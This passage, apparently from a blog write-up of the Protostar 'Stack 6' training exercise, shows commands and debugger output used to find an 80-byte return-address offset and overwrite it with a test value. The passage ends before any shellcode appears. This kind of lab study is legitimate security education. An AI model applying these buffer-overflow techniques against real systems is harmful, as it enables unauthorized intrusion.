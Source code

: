 The first thing I tried to do, was to set it up just like I did on Stack 5.

First, I needed to find the offset (using a locally copied version, since the real one was suid and wouldn't dump a core):

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae

user@protostar:~$ ./stack6
input path please: 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae
got path 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7A

d8Ad9Ae0Ae1Ae
Segmentation fault (core dumped)
user@protostar:~$ gdb --quiet --core=/tmp/core.11.stack6.2279
Core was generated by `./stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0x37634136 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37634136
80
```

Great, so now we know the EIP offset is 80 bytes.  I for some reason, just wanted to verify it, and also see if I   had some space after the return address for shellcode.

```
user@protostar:~$ echo `perl -e 'print "A"x80 . "\xEF\xBE\xAD\xDE" . "C"x100'` | ./stack6
input path please: got path 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ▒AAAAAAAAAAAAﾭ▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Segmentation fault (core dumped)
user@protostar:~$ gdb --quiet --core=/tmp/core.11.stack6.2316
Core was generated by `./stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7f0:      'C' <repeats 100 times>
0xbffff855:      ""
0xbffff856:      ""
0xbffff857:      ""
0xbffff858:      "\001"
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "Ѓ\004\b"
0xbffff861:      ""
0xbffff862:      ""
```
